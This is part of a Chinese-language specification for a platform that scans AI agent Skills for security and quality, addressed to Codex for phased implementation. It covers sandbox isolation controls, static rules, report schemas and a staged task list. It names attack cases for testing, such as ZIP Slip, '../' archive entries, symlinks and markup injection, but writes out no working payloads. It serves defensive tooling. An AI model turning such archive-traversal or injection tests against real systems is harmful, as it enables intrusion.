- `release_decision` 优先级：`BLOCK` > `INCOMPLETE` > `REVIEW` > `ALLOW`；`ALLOW` 仅适用于按当前明确配置的门禁策略满足必需阶段，不等于绝对安全。

---

## 9. 动态安全检测与沙箱（优先级 P1，严禁不安全降级）

### 9.1 方案对比

| 方案 | 适用 | 风险与限制 | 本项目结论 |
|---|---|---|---|
| 本机 subprocess | 执行可信自家测试脚本 | 与宿主共享过多权限，不适合恶意 Skill | **禁止用于未可信 Skill** |
| Docker 默认容器 | 内部可信 CI 或样例工作负载 | 非强化安全边界，配置不当会暴露宿主能力 | 不作为面向恶意 Skill 的最终隔离 |
| gVisor/runsc | 兼容 OCI 的强化容器隔离 | 有 syscall 兼容和额外性能成本 | 候选 P1 实现 |
| Firecracker microVM | 高隔离需求、不可信代码 | 管理成本较高、启动/镜像链路复杂 | 后续高安全版本候选 |

### 9.2 Runner 必须有的控制

- 按 Scan/Case 创建**一次性隔离环境**；任何执行环境不能复用上次 Skill 的可写工作区。
- 没有真实企业凭据；虚构环境变量/Token 可用于模拟；不挂载宿主 HOME、Docker socket 或集群凭据。
- 宿主磁盘、根文件系统只读；输入只读挂载；输出使用受限临时卷；运行后清理。
- 默认网络完全拒绝；允许名单模式必须经过代理/网关执行并拦截 DNS/IP/重定向绕过；不直通互联网。
- 限制 CPU、内存、进程数、文件大小、运行时长、磁盘写入、日志长度；超限终止并记录事件。
- `run` 接口接受**白名单化测试操作/预定义测试 profile**，不能把任意 shell 命令透传给 Runner。
- 采集审计事件：`exec_attempt`、`fs_read/write_attempt`、`network_attempt`、`permission_denied`、`timeout`；不能声称“采集了全部系统调用”除非确实有相关监控能力。
- 若平台不支持控制已声明权限（如细粒度 read/write allowlist），该能力返回 `UNSUPPORTED` 并 fail closed。
- 沙箱 Runner 与模型宿主配合执行 Skill 时，须确保危险工具调用从执行层被拒绝，不能仅依据 Prompt 里的“不要执行”。

### 9.3 动态 Case（安全）

仅运行仓库中**自建无害样例**：尝试访问虚构路径、写入未授权临时目录、请求 `example.invalid`；将“不发生实际写入/联网”作为可观测断言。不要在公共开发环境测试真实窃取或破坏行为。

---

## 10. 报告模板与差异分析

### 10.1 报告结构

```json
{
  "schema_version":"1.0",
  "scan": {"id":"...","created_at":"...","status":"COMPLETED"},
  "artifact": {"name":"safe-report-helper","sha256":"...","files":8},
  "engines": [{"name":"builtin-static","version":"1.0","status":"FINDINGS","duration_ms":123}],
  "compliance": {"status":"PASSED","issues":[]},
  "security": {"verdict":"REVIEW","findings":[],"coverage":{"static":true,"dynamic":false}},
  "quality": {"score":null,"coverage":0.4,"static_subscore":86,"dimensions":[]},
  "decision": {"status":"INCOMPLETE","reasons":["dynamic_not_run"]},
  "provenance": {"policy_version":"1.0","ruleset_sha256":"..."}
}
```

### 10.2 版本比较

- 归类 `new_findings`、`resolved_findings`、`unchanged_findings`（以稳定 fingerprint 匹配）。
- 对同一规则命中但证据位置变化，支持次级匹配并标记 `changed_evidence`，避免误认为已解决。
- 显示质量指标变化，但不同模型、评测集、规则版本下不直接作强结论。
- 显示扫描覆盖变化（例如新版本增加/减少了动态测试）。
- 同一 ZIP hash、不同规则版本的扫描可复现，用来研究检测规则迭代。

---

## 11. 建议代码结构

```text
sqsp/
├── README.md
├── docker-compose.yml
├── .env.example
├── pyproject.toml
├── backend/
│   ├── Dockerfile
│   ├── app/
│   │   ├── main.py
│   │   ├── api/          # upload, scans, skills, rules, compare
│   │   ├── core/         # config, enums, errors, logging, security
│   │   ├── db/           # models, session, migrations
│   │   ├── schemas/      # Pydantic DTO
│   │   ├── ingest/       # safe ZIP, files inventory, content hashes
│   │   ├── skill/        # parser, official validation, sidecar schema
│   │   ├── scan/
│   │   │   ├── contracts.py
│   │   │   ├── static_rules/
│   │   │   ├── engines/
│   │   │   ├── quality/
│   │   │   ├── adapters/
│   │   │   └── orchestrator.py
│   │   ├── policy/       # decision engine
│   │   └── reports/
│   └── tests/
├── worker/
│   ├── Dockerfile
│   └── worker_main.py
├── frontend/
│   ├── package.json
│   ├── src/
│   │   ├── api/
│   │   ├── pages/
│   │   ├── components/
│   │   └── types/
│   └── tests/
├── rules/
│   ├── builtin-rules.yaml
│   └── policy.yaml
├── schemas/
│   ├── skill-security.schema.json
│   └── skill-evals.schema.json
├── examples/
│   ├── benign-skill/
│   └── suspicious-skill/
├── docs/
│   ├── ARCHITECTURE.md
│   ├── RULES.md
│   ├── SECURITY.md
│   └── API.md
└── scripts/
    ├── seed_examples.py
    └── smoke_test.sh
```

架构强约束：`scan/contracts.py` 中的接口与 DTO **不应依赖具体扫描器**。核心接口建议：

```python
class SkillAnalyzer(Protocol):
    name: str
    def analyze(self, context: ScanContext) -> AnalysisResult: ...

class ArtifactStore(Protocol):
    def put(self, data: bytes, key: str) -> str: ...
    def read(self, key: str) -> bytes: ...

class SandboxRunner(Protocol):
    def capability(self) -> CapabilityReport: ...
    def run_case(self, request: SandboxCaseRequest) -> SandboxCaseResult: ...

class QualityRunner(Protocol):
    def capability(self) -> CapabilityReport: ...
    def evaluate(self, skill: SkillArtifact, cases: list[EvalCase]) -> QualityRun: ...
```

以上为契约草图，允许 Codex 根据具体实现调整同步/异步形式，但领域语义不能变化。

---

## 12. 分阶段实施清单（Codex 逐阶段推进）

### Phase 0：工程骨架与自动化（优先）

- [ ] 初始化 FastAPI、SQLAlchemy/Alembic、RQ Worker、React/TypeScript、Compose、环境变量样例。
- [ ] `/healthz`、`/readyz`、OpenAPI、统一错误对象、配置校验、结构化日志。
- [ ] 数据库迁移、测试框架 pytest、前端构建与至少 1 个 UI smoke test。
- [ ] README 写明一键启动、测试、端口与常见错误。

**验收**：`docker compose up --build` 启动前后端 + DB + Redis + worker；本地页面可访问；自动化测试能跑。

### Phase 1：上传与解析

- [ ] ZIP 安全导入与资源配额；做 SEC-07/08/09/10 的攻击单测。
- [ ] ZIP 内容寻址存储与 SHA256；去重与版本记录。
- [ ] `SKILL.md` YAML 解析、字段/目录校验、文件清单、引用路径检查。
- [ ] `skill-security.yaml` 和 `evals/cases.yaml` 的 JSON Schema 校验。

**验收**：良性 Skill 解析成功；恶意 ZIP 拒绝且无法越界写文件；格式错误有精确错误码。

### Phase 2：内置安全静态规则

- [ ] 实现 S001–S016，至少 S002/S003/S005/S006/S007/S008/S009/S013 有可运行测试。
- [ ] 文件/行证据、脱敏、整改建议、引擎/规则版本。
- [ ] `scan_id` 异步任务、状态生命周期、失败与重试处理；支持单次失败明确返回 `PARTIAL/FAILED`。
- [ ] 报告 JSON 导出和 Findings 筛选 API。

**验收**：两个内置示例 Skill 产生可区分的真实结果；规则单元测试覆盖正常/恶意/误报边界。

### Phase 3：质量评分与报告界面

- [ ] 完成结构符合性、可维护性启发式检查和局部评分；无法做真实任务评测时保持 `quality_score = null`。
- [ ] 实现策略决策引擎与覆盖标识。
- [ ] 完成 Dashboard、上传页、报告页、对比页。
- [ ] 对比新增/已解决 Finding，展示规则版本、阶段状态及差异。

**验收**：用户无需看终端即可理解扫描发现、证据与“为什么不能判定完全安全”。

### Phase 4：扩展能力（P1，可在 MVP 完成后再做）

- [ ] `CiscoScannerAdapter` / `SkillSpectorAdapter` / `OSVAdapter`，先固定版本及 JSON 解析契约。
- [ ] 严格隔离的动态 Runner 与无害测试案例；未就绪前明确 `UNAVAILABLE`。
- [ ] 真实宿主 `QualityRunner`，支持正/负触发、with/without-skill、重复稳定性和回归。
- [ ] LLM 语义审查、人工审核工作流；敏感数据与扫描代码不得默认发往云模型。
- [ ] GitHub URL 导入（严格安全校验、固定 commit）与 CI 接口。

**验收**：每项能力必须附独立测试，并在 UI 准确显示可用状态与检测覆盖。

### Phase 5：生产化（不在本次 MVP 强制范围）

SSO/RBAC、真正多租户隔离、对象存储、分布式 Runner、审计系统、配额和租户限流、供应链签名、离线漏洞库、部署安全基线、Prometheus 监控及发布流水线审批。

---

## 13. 测试与验收标准

### 13.1 自动化测试建议

- **单元测试**：frontmatter 边界长度、非法名称、YAML 自定义标签拒绝、路径引用、权限交集、规则误报/漏报样例、评分缺失值。
- **集成测试**：ZIP 上传 → 任务入队 → Worker 扫描 → DB 保存 → 报告读取；同 hash 去重；Worker 重试不会重复写 findings。
- **安全测试**：ZIP Slip、绝对路径、symlink、文件数与体积超限、HTML/Markdown 注入、报告密钥脱敏、未配置沙箱 fail closed。
- **前端测试**：上传状态、报表筛选、未运行阶段标识、版本对比、下载 JSON。
- **回归测试**：同一规则版本下两次运行结果稳定；版本变更能识别新增/消失 findings。

### 13.2 阶段性门槛（建议目标，不是现有事实）

- P0：所有导入安全用例全部通过。
- P0：动态能力不可用时**绝不**在宿主执行 Skill 代码。
- P0：报告不打印真实疑似密钥全文。
- P0：质量评分缺少真实功能/稳定性数据时不能展示“完整质量分”。
- P1：接口基础成功/失败流程有自动化测试，新增核心代码单元测试覆盖率目标不低于 80%。
- P1：静态扫描对示例恶意 Skill 至少命中 4 类不同风险，且具有文件与行号、整改说明。
- P1：能对比两个 Skill 版本并列出新增、解决和持续问题。
- P1：前端在空数据、失败、部分完成、正常结果时均有明确 UI 状态。

### 13.3 一次演示的标准脚本

1. 打开 `/upload`，上传 `examples/benign-skill` 生成的 ZIP。
2. 查看格式检查通过，风险发现为空或仅有说明性建议；动态为 `UNAVAILABLE`，并显示原因。
3. 上传 `examples/suspicious-skill` ZIP，显示至少 4 种规则风险及文件证据。
4. 上传含 `../` 条目的恶意 ZIP，立即收到 `INVALID_ARCHIVE`，服务器外无写入。
5. 修改 suspicious 示例中的一条风险，重新上传并对比报告，看到对应 finding 从未解决变成已解决。
6. 下载 JSON 报告，确认有规则版本、阶段状态、覆盖与报告依据。

---

## 14. Codex 实施顺序与报告约定

**不要一次性写出全部功能再测试。按 Phase 0 → 1 → 2 → 3 推进。每完成一阶段都要：**

1. 列出创建/修改的文件、关键设计决策与剩余风险。
2. 执行可运行的自动化测试、静态类型检查、前端 build；记录真实命令及结果，不得声称未运行的测试通过。
3. 验证端到端最小路径（上传 → 扫描 → 报告）。
4. 如果缺少 docker/gVisor/模型密钥，依照本规范使用 `UNAVAILABLE` 标记继续完成独立功能，不得不安全降级。
5. 任何改变本规范的重大范围调整都要写 `docs/DECISIONS.md`，说明原因、备选方案及影响。
6. 先保证正确的领域状态、数据一致性与安全边界，再优化 UI 美观；不做“假可用”的演示数据。

建议最先实现 **`safe_zip.py` → `skill_parser.py` → `scanner_contracts.py` → `builtin_static.py` → `decision_engine.py` → API → 前端**，因为这些是最难替换的基础能力。

### 可直接发给 Codex 的第一条消息

> 阅读仓库根目录的《SQSP_Codex_项目实施规格书.md》，严格按照“第 0 章最高优先级指令”和 Phase 0–3 完成可运行的 Skill 质量与安全平台 MVP。先检查当前仓库，再分阶段实现并执行测试。不要只输出计划、前端 Mock 或伪代码；动态沙箱/真实宿主质量评测未就绪时使用 UNAVAILABLE/NOT_RUN，绝不在宿主机执行未可信 Skill。实现完提交文件清单、运行命令、测试结果、已知限制和下一阶段计划。

---

## 15. 来源与核验链接

本规范中“官方标准”与“平台自行设计的扩展”已经明确区分。第三方软件、许可证和 CLI 行为应在实现阶段基于锁定的版本再次核对。

1. Agent Skills Specification — https://agentskills.io/specification  
2. Agent Skills reference implementation — https://github.com/agentskills/agentskills  
3. Cisco AI Defense Skill Scanner — https://github.com/cisco-ai-defense/skill-scanner  
4. Cisco Scanner Documentation — https://cisco-ai-defense.github.io/docs/skill-scanner  
5. NVIDIA SkillSpector — https://github.com/NVIDIA/skillspector  
6. Snyk Agent Scan — https://github.com/snyk/agent-scan  
7. Anthropic Skills / Skill Creator — https://github.com/anthropics/skills  
8. OpenAI Skills — https://github.com/openai/skills  
9. OWASP Agentic Skills Top 10 — https://github.com/OWASP/www-project-agentic-skills-top-10  
10. OSV Scanner — https://github.com/google/osv-scanner  
11. gVisor Documentation — https://gvisor.dev/docs/  
12. Firecracker Jailer — https://github.com/firecracker-microvm/firecracker/blob/main/docs/jailer.md  

---

**最终产品边界再次确认**：这是一个 **Skill 层级的质量与安全平台**。可运行环境和模型宿主只作为测试 Skill 的依赖适配器，MCP/连接器只作为 Skill 可能调用的资源，不扩展成独立测评对象。首版的竞争力来自“标准兼容、扫描证据、质量覆盖透明、隐私与沙箱安全边界、版本回归和发布准入”，而不是堆砌功能数量。
